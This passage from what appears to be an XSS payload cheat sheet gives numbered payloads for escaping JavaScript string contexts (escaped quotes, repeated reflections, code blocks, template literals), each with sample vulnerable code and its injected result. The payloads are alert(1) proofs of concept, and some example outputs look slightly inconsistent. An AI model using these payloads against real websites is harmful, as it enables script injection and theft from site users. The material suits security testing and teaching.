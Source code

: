 ```html
```
* Example source code
```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```
* If we input payload '-alert(1)-' it will be like this
```html
<script>
    var sitekey = '\'-alert(1)-\'';
</script>
```
The quotes are escaped by a backslash so we need to bypass them
* After input the payload
```html
<script>
    var sitekey = '\\'alert(1)//';
</script>
```
9. Use when there’s multi reflection in the same line of JS code
```html
/alert(1)//\
/alert(1)}//\
```
* Example source code
```html
<script>
    var a = 'REFLECTED_HERE'; var b = 'REFLECTED_HERE';
</script>
```
* After input the payload
```html
<script>
    var a = '/alert(1)//\'; var b = '/alert(1)//\';
</script>
```
10. Use when input inside a string delimited value and inside a single logical block like function or conditional (if, else, etc).
```html
'}alert(1);{'
\'}alert(1);{// 
```
* Example source code
```html
<script>
    var greeting;
    var time = 1;
    if (time < 10) {
    test = 'REFLECTED_HERE';
  }
</script>
```
* After input the payload
```html
<script>
    var test;
    var time = 1;
    if (time < 10) {
    test = ''}alert(1);{'';
  }
</script>
```
> Payload number 2 uses when quote escaped by backslash
11. Use when input lands inside backticks delimited strings
```html
${alert(1)}
```